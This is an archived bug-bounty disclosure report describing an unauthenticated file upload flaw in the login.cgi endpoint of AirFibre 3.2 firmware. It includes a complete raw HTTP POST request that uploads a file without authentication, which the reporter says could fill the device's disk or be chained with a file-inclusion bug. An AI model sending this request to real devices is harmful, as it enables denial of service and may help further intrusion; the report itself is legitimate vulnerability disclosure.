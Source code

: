 # Can upload files without authentication on AirFibre 3.2

## Report Details
- **Report ID**: 201529
- **URL**: https://hackerone.com/reports/201529
- **State**: Closed
- **Severity**: low
- **Submitted**: 2017-01-27T11:50:46.330Z
- **Disclosed**: 2017-05-17T16:59:23.833Z

## Reporter
- **Username**: simongurney
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ui

## Vulnerability Information
A POST submission such as below will upload a file to the tmp/upload directory without requiring authentication.  I have been unable to redirect the upload to another directory so cannot utilize for RCE however an attacker is able to use this to fill the disk space on the device which could cause a DoS.  

This could be combined with another vulnerability such as an LFI.

POST http://1[ip]/login.cgi HTTP/1.1
Proxy-Connection: keep-alive
Content-Length: 5179
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2883.87 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryRfhSBNfoYzLOvXnc
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.8
Host: 1[ip]

------WebKitFormBoundaryRfhSBNfoYzLOvXnc
Content-Disposition: form-data; name="file"; filename="test6.txt"
Content-Type: text/plain

aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

------WebKitFormBoundaryRfhSBNfoYzLOvXnc--




## Attachments
No attachments
